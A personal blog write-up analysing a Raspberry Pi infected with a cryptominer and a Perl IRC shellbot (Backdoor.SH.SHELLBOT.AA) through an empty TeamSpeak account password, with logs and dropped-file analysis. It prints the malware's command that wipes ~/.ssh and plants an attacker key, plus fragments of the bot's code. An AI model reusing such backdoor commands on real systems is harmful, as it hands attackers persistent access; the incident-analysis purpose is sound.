 #+TITLE: Investigating a Backdoor.SH.SHELLBOT.AA Infection
#+DATE: <2020-01-22 Wed 10:43>
#+TAGS: writeup, reverse-engineering, linux, security

It's typical for the younger sibling to look up to and mimic the older sibling,
which is apparently what happened while I was away at school. I'm self-hosting a
few services off of a Raspberry Pi B+ back at my parents' house, and when my
brother got a Pi of his own, he decided that he also wanted to use it for
self-hosting. Unfortunately, he doesn't know much about security, and
unintentionally did me the favor of setting up a honeypot.[fn:1]

I was home for winter break last week and my dad called me over to tell me that
he'd gotten an email from our ISP. When he said that, I thought it was related
to the now defunct [[https://en.wikipedia.org/wiki/Copyright_Alert_System][Copyright Alert System]], but this time, it was a legitimate
abuse complaint.

#+BEGIN_SRC prog
From: [REDACTED]
Date: January 17, 2020 at 12:30:43 PM EST
To: [REDACTED]
Subject: [REDACTED] Unauthorized traffic originating from your IP [REDACTED]

Dear Verizon Online Customer,

We have received 51 complaints since 01/15/2020

On 01-17-2020, your account was reported to have been used in an attempt to gain
unauthorized access to another system, or to transmit malicious traffic to
another Internet user.

It is possible your system may have been infected by a virus or a botnet that is
causing this action.

Report and/or Logs:

Note: Local timezone is +0100 (CET)
Jan 17 10:23:39 [REDACTED] sshd[3230]: Invalid user user from [REDACTED]
Jan 17 10:23:39 [REDACTED] sshd[3230]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=[REDACTED]
Jan 17 10:23:41 [REDACTED] sshd[3230]: Failed password for invalid user user from [REDACTED] port 32776 ssh2
Jan 17 10:23:41 [REDACTED] sshd[3230]: Received disconnect from [REDACTED] port 32776:11: Bye Bye [preauth]
Jan 17 10:23:41 [REDACTED] sshd[3230]: Disconnected from [REDACTED] port 32776 [preauth]
Jan 17 11:33:28 [REDACTED] sshd[17364]: Invalid user nitesh from [REDACTED]
Jan 17 11:33:28 [REDACTED] sshd[17364]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=[REDACTED]
Jan 17 11:33:30 [REDACTED] sshd[17364]: Failed password for invalid user nitesh from [REDACTED] port 60306 ssh2
Jan 17 11:33:30 [REDACTED] sshd[17364]: Received disconnect from [REDACTED] port 60306:11: Bye Bye [preauth]
Jan 17 11:33:30 [REDACTED] sshd[17364]: Disconnected from [REDACTED] port 60306 [preauth]
Jan 17 11:59:21 [REDACTED] sshd[22398]: Invalid user elastic from [REDACTED]

Please immediately ensure your anti-virus software is properly updated, and then
run a full-system virus scan on your computer(s). Follow the removal
instructions for any viruses found, as indicated by your anti-virus software.

Additional information and removal instructions about viruses and your
anti-virus software may be found on the website of your anti-virus software
manufacturer.

It is difficult to verify the presence of an exact virus which has infected a
computer without a full system scan with up-to-date anti-virus software.
Therefore, you may wish to contact the Technical Support Department of your
anti-virus software manufacturer, should you need assistance with this process,
or have any questions or concerns about a possible virus infection.

Please be aware of the importance in taking immediate actions to stop further
virus related activity. If you are unable to take immediate action, it would be
advisable to remove the computer(s) which may be infected from any networks and
the Internet connection until it has been properly cleaned. For DSL customers,
this may be easily done by unplugging the network cable that connects the
computer to the DSL modem, or the telephone line that connects the DSL modem to
the telephone jack.

Verizon Policy:

If you do not take appropriate action to resolve this issue, we will be forced
to take further action, which could include the suspension of your service until
the issue is resolved, in order to ensure the safety of our network, and the
safety of other Internet users.

Please carefully review these agreements, which can be viewed at:

http://www.verizon.com/about/terms/

Any future violation will result in further action being taken, up to, and
including, the termination of your service.

Sincerely,

Verizon Online Abuse
http://www.verizon.com/about/terms/
http://www.verizon.com/securityinfo
[REDACTED]
#+END_SRC

We ran through a couple of possibilities for the source before my dad pulled up
the list of ports open on our router. There were a few we didn't remember
setting up, and they were mapped to an IP we didn't recognize. That's when my
brother came down and, after some interrogation, spilled the beans.

"Port 24 is SSH for my Raspberry Pi."

"Did you... change the default login credentials?"

"No."

"Go unplug it right now."

I told him to give me the SD card so I could pull the malware off of it, and to
wipe it clean before turning the Pi on again.

The first place I decided to look was =/var/log/auth.log=.

...

What the hell? There are entries from an hour ago!

#+BEGIN_SRC prog
...
Jan 18 10:43:23 raspberrypi sshd[819]: Failed password for pi from [REDACTED] port 59468 ssh2
Jan 18 10:43:41 raspberrypi sshd[819]: Failed password for pi from [REDACTED] port 59468 ssh2
Jan 18 10:43:44 raspberrypi sshd[819]: Accepted password for pi from [REDACTED] port 59468 ssh2
Jan 18 10:43:44 raspberrypi sshd[819]: pam_unix(sshd:session): session opened for user pi by (uid=0)
Jan 18 10:43:44 raspberrypi systemd-logind[375]: New session c2 of user pi.
Jan 18 10:43:44 raspberrypi systemd: pam_unix(systemd-user:session): session opened for user pi by (uid=0)
Jan 18 10:51:50 raspberrypi sudo:       pi : TTY=pts/0 ; PWD=/var/log ; USER=root ; COMMAND=/usr/bin/apt-get install denyhosts
Jan 18 10:51:50 raspberrypi sudo: pam_unix(sudo:session): session opened for user root by pi(uid=0)
Jan 18 10:52:09 raspberrypi sudo: pam_unix(sudo:session): session closed for user root
Jan 18 11:17:01 raspberrypi CRON[1096]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 18 11:17:02 raspberrypi CRON[1096]: pam_unix(cron:session): session closed for user root
#+END_SRC

I asked my brother about it, and as it turns out, he didn't heed my advice to
unplug it immediately.[fn:2] Even if installing =denyhosts= didn't do anything, it
did leave some extra log trails for me to look at.

#+BEGIN_SRC prog
...
2020-01-18 10:52:06,162 - denyhosts   : INFO     new suspicious logins: ['teamspeak - [REDACTED]']
...
#+END_SRC

Grepping for "Accepted", we can find the time of the initial breach. Well...
assuming that the logs up to this point haven't been tampered with.

#+BEGIN_SRC prog
Jan 15 09:36:10 raspberrypi sshd[2253]: Accepted password for teamspeak from [REDACTED] port 49002 ssh2
Jan 15 09:36:10 raspberrypi sshd[2253]: pam_unix(sshd:session): session opened for user teamspeak by (uid=0)
Jan 15 09:36:10 raspberrypi systemd-logind[369]: New session c7 of user teamspeak.
Jan 15 09:36:10 raspberrypi systemd: pam_unix(systemd-user:session): session opened for user teamspeak by (uid=0)
...
Jan 15 09:36:20 raspberrypi passwd[2288]: pam_unix(passwd:chauthtok): password changed for teamspeak
Jan 15 09:36:20 raspberrypi passwd[2295]: pam_unix(passwd:chauthtok): authentication failure; logname= uid=1001 euid=0 tty= ruser= rhost=  user=teamspeak
...
Jan 15 09:42:02 raspberrypi sshd[2355]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=[REDACTED]  user=teamspeak
Jan 15 09:42:04 raspberrypi sshd[2355]: Failed password for teamspeak from [REDACTED] port 56002 ssh2
Jan 15 09:42:05 raspberrypi sshd[2355]: Received disconnect from [REDACTED] port 56002:11: Bye Bye [preauth]
Jan 15 09:42:05 raspberrypi sshd[2355]: Disconnected from [REDACTED] port 56002 [preauth]
Jan 15 09:42:05 raspberrypi sshd[2253]: pam_unix(sshd:session): session closed for user teamspeak
...
#+END_SRC

So my brother wasn't compromised by the default password for 'pi' that comes
with [[https://www.raspberrypi.org/downloads/noobs/][NOOBS]]. His server was compromised because the account for running his TS3
server had an empty password. At this point, I had what I thought was a pretty
clever idea for finding whatever files the attacker might've dropped.

#+BEGIN_SRC prog
jakob@Epsilon /tmp/image $ find . -newermt $(date +%Y-%m-%d -d '7 days ago') -type f -type executable -print
...
./home/teamspeak/.bashtemp/a/a
./home/teamspeak/.bashtemp/a/anacron
./home/teamspeak/.bashtemp/a/stop
./home/teamspeak/.bashtemp/a/cron
./home/teamspeak/.bashtemp/a/init0
./home/teamspeak/.bashtemp/a/run
./home/teamspeak/.bashtemp/a/upd
./home/teamspeak/.bashtemp/cron.d
./home/teamspeak/.bashtemp/b/a
./home/teamspeak/.bashtemp/b/stop
./home/teamspeak/.bashtemp/b/sync
./home/teamspeak/.bashtemp/b/run
...
#+END_SRC

Nice.

The =a= directory seems to contains scripts for setting up a cryptocurrency miner.
=a/a= sets [[https://en.wikipedia.org/wiki/Model-specific_register][MSR]] values and creates =a/upd=, which essentially just runs =a/run=. =a/stop=
hamfistedly kills all =cron= jobs, =a/init-0= is a "script for killing
cryptocurrency miners in a Linux enviornment [sic]", and =a/run= runs either
=anacron= or =cron= depending on =$ARCH=. This is pretty suspicious, especially since
there aren't any crontabs.

#+BEGIN_SRC prog
jakob@Upsilon /tmp/image/home/teamspeak/.bashtemp/a $ strings anacron | grep -i monero
            "coin": "monero",
            "coin": "monero",
            "coin": "monero",
cryptonight-monerov7
cryptonight-monerov8
monero
#+END_SRC

Surprise, surprise. It isn't actually =cron=. It's a cryptominer in disguise.

=a/run= only checks for 'x86_64' and 'i686', which I guess this means that it
didn't do anything with my brother's ARM machine. But my brother's response when
I mentioned this to him was "that explains why it was burning hot when I
unplugged it". So maybe it /was/ doing some mining. The world may never know.

The =b= directory is a little more interesting. =b/a= creates =b/sync=, which, like
=a/upd=, essentially just runs =b/run=. =b/stop= hamfistedly kills a bunch of
processes: =rsync=, =perl=, =nginx=, =ecryptfx=, and =xmr= ([[https://en.wikipedia.org/wiki/Monero_(cryptocurrency)][Monero]]?). =b/run= is where the
fun starts. It's a shell script that runs some Perl code, which I'll get to in a
minute, but it overwrites =~/.ssh= to set up a backdoor.

#+BEGIN_SRC prog
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh
#+END_SRC

If you do a search for that key, you'll come up with results from other people
who've been infected.

- [[https://ubuntuforums.org/archive/index.php/t-2395684.html][I think I got hacked by some crypo mining malware]]
- [[https://askubuntu.com/questions/1161003/strange-cron-job-takes-up-100-of-cpu-ubuntu-18-lts-server][Strange Cron Job takes up 100% of CPU Ubuntu 18 LTS Server]]

As for the Perl code, it's a base64 blob echoed into =base64 --decode=, which is
then piped into =perl=. Decoding it reveals

#+BEGIN_SRC perl
eval unpack u=>q{_"FUY("1P<F]C97-S;R`]("=R<WEN8R<["@HD<V [...]
#+END_SRC

Uh, okay. We can get replace =eval= with =print= and see what it's running.

#+BEGIN_SRC perl
my $processo = 'rsync';

$servidor='[REDACTED]' unless $servidor;
my $porta='[REDACTED]';
my @canais=("[REDACTED]");
my @adms=("A","X");
my @auth=("localhost");

my $linas_max=6;
my $sleep=3;

...
#+END_SRC

Surprisingly, it's not obfuscated beyond the initial packing. I've made it
available [[https://paste.sr.ht/%7Ejakob/d6d7590b9c6b8a54d1774067b76d1840190b7523][here]], albeit with anything that could identify the botmaster
redacted.[fn:3] I believe the language here is Portuguese. The code disguises
itself by setting =argv= to "rsync" and forking into the background. It then
connects to an IRC C&C server and waits for commands.

This is all pretty bush-league, so someone's probably analyzed it before me. At
this point, I threw =b/run= at [[https://www.virustotal.com/gui/][VirusTotal]]. [[https://www.virustotal.com/gui/file/b68bd3a54622792200b931ee5eebf860acf8b24f4b338b5080193573a81c747d/detection][Here are the results.]] Doing a search
for "Backdoor.SH.SHELLBOT.AA" comes up with TrendMicro's Threat Encyclopedia
[[https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/backdoor.sh.shellbot.aa][page]] on it. Everything lines up with what I've figured out through my cursory
reverse engineering, so I think we've found our culprit. I did a search for
"Outlaw hacking group"[fn:4] and came across [[https://www.zdnet.com/article/outlaw-hackers-return-with-cryptocurrency-mining-bot/][an article on ZDNet]] and an [[https://blog.trendmicro.com/trendlabs-security-intelligence/outlaw-hacking-groups-botnet-observed-spreading-miner-perl-based-backdoor/][article
on the Trend Micro blog]] about this particular campaign.

It's worth noting is that the shellbot doesn't have any means of propagation
programmed into it. It can scan ports and run shell commands sent by the
botmaster, but it doesn't have anything specific to SSH bruteforcing. We checked
the logs on my dad's server when we realized all of this, and sure enough, there
were login attempts from my brother's machine.

[[./shellbot-propagation.jpg]]

So the bot definitely does try to propagate through the local network, even if
there isn't anything in the Perl code that indicates that it would.

---

This is why I recommend only using public key authentication for SSH, and
disabling password-based authentication in the daemon configuration files.

[fn:1] Something I'd been meaning to do for a while! I thought it'd be fun to have some in-the-wild malware samples to play with.
[fn:2] Still not sure what motivated the choice of =denyhosts=. If I were in his situation and too stubborn to just unplug the damn thing, I'd run =w= to figure out which pts the attacker is on and kill the associated process.
[fn:3] For your own safety ;) And so as not to ruin my own attempts at monitoring this botnet. If you do want to do some monitoring, [[http://jakob.space/pages/about.html][shoot me an email]]. We could work together.
[fn:4] Which I should say is an excellent choice of name, provided your goal is to make it impossible to use a search engine to find out anything about your group.
